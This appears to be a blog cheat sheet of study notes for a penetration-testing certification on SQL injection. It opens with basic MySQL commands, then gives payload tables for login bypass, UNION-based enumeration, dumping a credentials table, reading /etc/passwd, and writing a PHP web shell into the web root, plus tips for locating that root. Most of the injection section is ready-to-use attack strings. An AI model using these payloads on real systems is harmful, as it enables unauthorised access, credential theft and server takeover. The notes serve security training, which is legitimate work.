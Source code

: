 ```yaml
---
layout: post
title: "SQL Injection Fundementals"
date: 2025-04-22
categories: CheatSheets/CPTS
order: 13
---
```


## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p<password>` | login to mysql database (there shouldn't be any spaces between '-p' and the password). |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |
| `SELECT * FROM ports UNION SELECT * FROM ships;` | Combine results from both tables |

## MySQL Operator Precedence

* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

---

## SQL Injection

## Auth Bypass

| **Payload**              | **Description**                      |
|--------------------------|--------------------------------------|
| `admin' OR '1'='1`       | Basic auth bypass                    |
| `admin')-- -`            | Basic auth bypass (with SQL comment) |
| **Reference**            | [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |

---

## Union Injection

| **Payload**                                                | **Description**                          |
|------------------------------------------------------------|------------------------------------------|
| `' ORDER BY 1-- -`                                         | Detect number of columns via `ORDER BY`  |
| `cn' UNION SELECT 1,2,3-- -`                               | Test UNION injection, discover columns   |
| `cn' UNION SELECT 1,@@version,3,4-- -`                     | Show MySQL version via UNION             |
| `UNION SELECT username,2,3,4 FROM passwords-- -`           | Extract usernames (4‑column UNION)       |

---

## DB Enumeration

| **Payload**                                                                                                                | **Description**                                            |
|----------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------|
| `SELECT @@version`                                                                                                         | Fingerprint MySQL and return version string                |
| `SELECT SLEEP(5)`                                                                                                          | Fingerprint MySQL via time delay                           |
| `cn' UNION SELECT 1,database(),2,3-- -`                                                                                     | Retrieve current database name                             |
| `cn' UNION SELECT 1,schema_name,3,4 FROM information_schema.schemata-- -`                                                   | List all databases                                         |
| `cn' UNION SELECT 1,table_name,table_schema,4 FROM information_schema.tables WHERE table_schema='dev'-- -`                  | List tables in the `dev` database                          |
| `cn' UNION SELECT 1,column_name,table_name,table_schema FROM information_schema.columns WHERE table_name='credentials'-- -` | List columns in the `credentials` table                    |
| `cn' UNION SELECT 1,username,password,4 FROM dev.credentials-- -`                                                          | Dump all rows from `dev.credentials`                       |

---

## Privileges

| **Payload**                                                                                                                                       | **Description**                                 |
|---------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------|
| `cn' UNION SELECT 1,user(),3,4-- -`                                                                                                                | Show current MySQL user                        |
| `cn' UNION SELECT 1,super_priv,3,4 FROM mysql.user WHERE user='root'-- -`                                                                          | Check if `root` has SUPER privileges            |
| `cn' UNION SELECT 1,grantee,privilege_type,is_grantable FROM information_schema.user_privileges WHERE user='root'-- -`                           | List all privileges granted to `root`           |
| `cn' UNION SELECT 1,variable_name,variable_value,4 FROM information_schema.global_variables WHERE variable_name='secure_file_priv'-- -`           | Show MySQL’s `secure_file_priv` setting         |

---

## File Injection

| **Payload**                                                                                                                                         | **Description**                      |
|-----------------------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------|
| `cn' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4-- -`                                                                                                 | Read the `/etc/passwd` file          |
| `SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'`                                                                         | Write a string into a server‑side file |
| `cn' UNION SELECT '', '<?php system($_REQUEST[0]); ?>', '', '' INTO OUTFILE '/var/www/html/shell.php'-- -`                                            | Drop a PHP web shell into the web root |

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) for Linux or this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt) for Windows. Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

---